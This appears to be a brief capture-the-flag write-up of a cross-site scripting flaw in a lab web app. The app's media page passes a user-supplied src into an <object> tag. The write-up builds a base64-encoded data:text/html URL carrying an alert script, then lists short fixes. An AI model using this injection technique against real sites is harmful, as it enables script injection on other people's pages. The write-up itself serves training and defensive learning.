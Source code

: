 # 11_XSS_image

# *How to find it*

on the home page we will that we have a simple image clickable
that redirect to : http://10.12.100.35/?page=media&src=nsa

when we inspected the html page we see the image displayed by <object> not <img> :

<object data="http://10.12.100.35/images/nsa_prism.jpg"></object>

so we will convert this <script>alert(1)</script> with base64

--> PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==

and we made this http://10.12.100.35/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==


# *How should secure it*

- Never display user input.
- Sanitize user input.
- use the <img> tag, with image name in database.



